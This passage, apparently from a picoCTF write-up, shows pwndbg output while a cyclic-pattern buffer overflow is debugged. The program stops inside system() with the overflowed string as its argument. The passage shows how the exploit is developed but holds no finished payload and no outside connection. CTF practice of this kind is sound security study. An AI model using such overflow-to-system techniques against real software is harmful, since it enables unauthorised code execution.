 Next we will continue the program until it shoots the system and goodbye

```asm
pwndbg> continue
Continuing.
What is your name?
Goodbye, aaaaaaaabaaaaaaacaaaaaaadaaaaaaaeaaaaaaafaaaaaaagaaaaaaahaaaaaaaiaaaaaaajaaaaaaakaaaaaaalaaaaaaamaaaaaaanaaaaaaaoaaaaaaapaaaaaaaqaaaaaaaraaaaaaasaaaaa!

Breakpoint 2, __libc_system (
    line=0x7fffffffd886 "aaaaaacaaaaaaadaaaaaaaeaaaaaaafaaaaaaagaaaaaaahaaaaaaaiaaaaaaajaaaaaaakaaaaaaalaaaaaaamaaaaaaanaaaaaaaoaaaaaaapaaaaaaaqaaaaaaaraaaaaaasaaaaa") at ../sysdeps/posix/system.c:207
warning: 207    ../sysdeps/posix/system.c: No such file or directory
LEGEND: STACK | HEAP | CODE | DATA | WX | RODATA
───────────────────────────────────────────────────[ REGISTERS / show-flags off / show-compact-regs off ]───────────────────────────────────────────────────
*RAX  0x7fffffffd886 ◂— 'aaaaaacaaaaaaadaaaaaaaeaaaaaaafaaaaaaagaaaaaaahaaaaaaaiaaaaaaajaaaaaaakaaaaaaalaaaaaaamaaaaaaanaaaaaaaoaaaaaaapaaaaaaaqaaaaaaaraaaaaaasaaaaa'
 RBX  0x7fffffffda88 —▸ 0x7fffffffdd95 ◂— '/home/spl1t4t3rminal/ctf/PICO_CTF/competition/vuln'
*RCX  0
*RDX  0x4052a0 ◂— 'Goodbye, aaaaaaaabaaaaaaacaaaaaaadaaaaaaaeaaaaaaafaaaaaaagaaaaaaahaaaaaaaiaaaaaaajaaaaaaakaaaaaaalaaaaaaamaaaaaaanaaaaaaaoaaaaaaapaaaaaaaqaaaaaaaraaaaaaasaaaaa!\n'
*RDI  0x7fffffffd886 ◂— 'aaaaaacaaaaaaadaaaaaaaeaaaaaaafaaaaaaagaaaaaaahaaaaaaaiaaaaaaajaaaaaaakaaaaaaalaaaaaaamaaaaaaanaaaaaaaoaaaaaaapaaaaaaaqaaaaaaaraaaaaaasaaaaa'
*RSI  0
*R8   0
*R9   0
*R10  3
*R11  0x7ffff7dfe110 (system) ◂— test rdi, rdi
 R12  0
 R13  0x7fffffffda98 —▸ 0x7fffffffddc8 ◂— 'HOSTTYPE=x86_64'
 R14  0x7ffff7ffd000 (_rtld_global) —▸ 0x7ffff7ffe310 ◂— 0
 R15  0
*RBP  0x7fffffffd890 ◂— 'aaaadaaaaaaaeaaaaaaafaaaaaaagaaaaaaahaaaaaaaiaaaaaaajaaaaaaakaaaaaaalaaaaaaamaaaaaaanaaaaaaaoaaaaaaapaaaaaaaqaaaaaaaraaaaaaasaaaaa'
*RSP  0x7fffffffd858 —▸ 0x4012e3 (fun+109) ◂— nop
*RIP  0x7ffff7dfe110 (system) ◂— test rdi, rdi
────────────────────────────────────────────────────────────[ DISASM / x86-64 / set emulate on ]────────────────────────────────────────────────────────────
 ► 0x7ffff7dfe110 <system>          test   rdi, rdi     0x7fffffffd886 & 0x7fffffffd886     EFLAGS => 0x202 [ cf pf af zf sf IF df of ac ]
   0x7ffff7dfe113 <system+3>      ✘ je     system+16                   <system+16>

   0x7ffff7dfe115 <system+5>        jmp    do_system                   <do_system>
    ↓
   0x7ffff7dfdc90 <do_system>       push   r13
   0x7ffff7dfdc92 <do_system+2>     mov    edx, 1                       EDX => 1
   0x7ffff7dfdc97 <do_system+7>     push   r12
   0x7ffff7dfdc99 <do_system+9>     push   rbp
   0x7ffff7dfdc9a <do_system+10>    mov    rbp, rdi                     RBP => 0x7fffffffd886 ◂— 'aaaaaacaaaaaaadaaaaaaaeaaaaaaafaaaaaaagaaaaaaahaaa...'
   0x7ffff7dfdc9d <do_system+13>    push   rbx
   0x7ffff7dfdc9e <do_system+14>    sub    rsp, 0x388                   RSP => 0x7fffffffd4b0 (0x7fffffffd838 - 0x388)
   0x7ffff7dfdca5 <do_system+21>    mov    rax, qword ptr fs:[0x28]     RAX, [0x7ffff7da8768] => 0xad4404748f8eb400
─────────────────────────────────────────────────────────────────────────[ STACK ]──────────────────────────────────────────────────────────────────────────
00:0000│ rsp         0x7fffffffd858 —▸ 0x4012e3 (fun+109) ◂— nop
01:0008│-030         0x7fffffffd860 —▸ 0x402019 ◂— 0x6f4700656d616e75 /* 'uname' */
02:0010│-028         0x7fffffffd868 —▸ 0x7fffffffd8a0 ◂— 'aaaafaaaaaaagaaaaaaahaaaaaaaiaaaaaaajaaaaaaakaaaaaaalaaaaaaamaaaaaaanaaaaaaaoaaaaaaapaaaaaaaqaaaaaaaraaaaaaasaaaaa'
03:0018│-020         0x7fffffffd870 —▸ 0x7ffff7f90fd0 (_IO_file_jumps) ◂— 0
```
